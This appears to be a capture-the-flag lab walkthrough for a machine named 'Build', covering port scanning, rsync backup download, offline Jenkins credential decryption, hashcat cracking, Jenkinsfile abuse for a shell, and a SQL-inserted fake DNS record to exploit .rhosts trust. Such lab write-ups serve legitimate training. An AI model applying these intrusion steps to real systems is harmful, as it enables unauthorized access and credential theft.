 # Build (Easy)

## port scan

```
PORT     STATE    SERVICE         REASON       VERSION
22/tcp   open     ssh             syn-ack      OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
53/tcp   closed   domain          conn-refused
512/tcp  open     exec            syn-ack      netkit-rsh rexecd
513/tcp  open     login?          syn-ack
514/tcp  open     shell           syn-ack      Netkit rshd
873/tcp  open     rsync           syn-ack      (protocol version 31)
3000/tcp open     ppp?            syn-ack
3306/tcp filtered mysql           no-response
8081/tcp filtered blackice-icecap no-response
1
```

## services enumeration

gitea server

![](<build(easy)/walkthrough_20240513154206049.png>)

there have a Jenkinsfile which means there have maybe have 'CI/CD'?

## Rlogin Abuse

https://book.hacktricks.xyz/network-services-pentesting/pentesting-rlogin

## Rsync Discover

we found a backups folder

![](<build(easy)/walkthrough_20240513155705596.png>)

download it on our machine

![](<build(easy)/walkthrough_20240513162254013.png>)

it seems a jenkins config folder

![](<build(easy)/walkthrough_20240513162434472.png>)

![](<build(easy)/walkthrough_20240513162635856.png>)

i will use https://github.com/gquere/pwn_jenkins offline decrypt buildadm cred

```bash
python3 ~/tool/script/jenkins_offline_decrypt.py ./secrets/master.key ./secrets/hudson.util.Secret ./jobs/build/config.xml
```

![](<build(easy)/walkthrough_20240513165407333.png>)

so we offline decrypt buildadm encrypted password `Git1234!`

now we are in gitea with buildadm user

![](<build(easy)/walkthrough_20240513165545244.png>)

## Abuse CI/CD

since we are buildadm , we can modify Jenkinsfile and push it into gitea repo

![](<build(easy)/walkthrough_20240513170725363.png>)

shell

![](<build(easy)/walkthrough_20240513170732840.png>)

we are in docker env

![](<build(easy)/walkthrough_20240513170811151.png>)

![](<build(easy)/walkthrough_20240513170915436.png>)

as we know, there have two fillter port

powerDNS

![](<build(easy)/walkthrough_20240513171715362.png>)

MariaDB with anonymous access

![](<build(easy)/walkthrough_20240513171917130.png>)

there have a db called `powerdnsadmin`

![](<build(easy)/walkthrough_20240513172202437.png>)

we can select user table and get admin hash

![](<build(easy)/walkthrough_20240513172214894.png>)

```bash
sudo hashcat  -m 3200  ./hash /usr/share/wordlists/rockyou.txt
```

`admin:winston`
![](<build(easy)/walkthrough_20240513172253714.png>)

## Abuse rsh-server

since we found ~/.rhosts on docker machine and we have DNS db access

```
admin.build.vl +
intern.build.vl +
```

the `.rhosts` file have `admin.build.vl` and `intern.build.vl` which mean if we on those two hosts, we can rlogin into docker machine

so, what if the `10.10.66.105 have same .rhosts`, let's try add fake dns record, so that "admin.build.vl" is our machine

```sql
INSERT INTO powerdnsadmin.records (domain_id, name, type, content, ttl, prio, disabled, ordername, auth) VALUES (1, 'admin.build.vl', 'A', '10.8.1.167', 60, 0, 0, NULL, 1);
```

![](<build(easy)/walkthrough_20240513174910469.png>)

Done!

![](<build(easy)/walkthrough_20240513174949374.png>)
